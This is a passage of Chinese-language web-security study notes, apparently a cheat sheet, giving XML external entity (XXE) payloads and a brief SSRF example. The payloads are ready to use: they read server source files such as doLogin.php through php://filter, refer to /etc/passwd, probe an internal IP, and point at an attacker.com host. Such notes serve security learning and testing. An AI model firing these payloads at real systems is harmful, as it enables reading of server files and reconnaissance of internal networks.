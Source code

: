 这里解码就是`file:///etc/passwd`

- php伪协议输出源码:

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://attacker.com/file.php" >
]>
<foo>&xxe;</foo>
```

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php">
]>

<user><username>&xxe;</username><password>124</password></user>
```

- 请求内网其他地址:

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://10.244.80.130">
]>

<user><username>&xxe;</username><password>124</password></user>
```







## SSRF

服务端请求伪造,以服务器的什么向某个地址发起请求

```xml-dtd
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE userInfo [
        <!ELEMENT userInfo (name)>
        <!ELEMENT name (#PCDATA)>
        <!ENTITY name SYSTEM "http://baidu.aaaa">
        ]>

<userInfo>
    <name>&name;</name>
</userInfo>
```



## 命令执行:
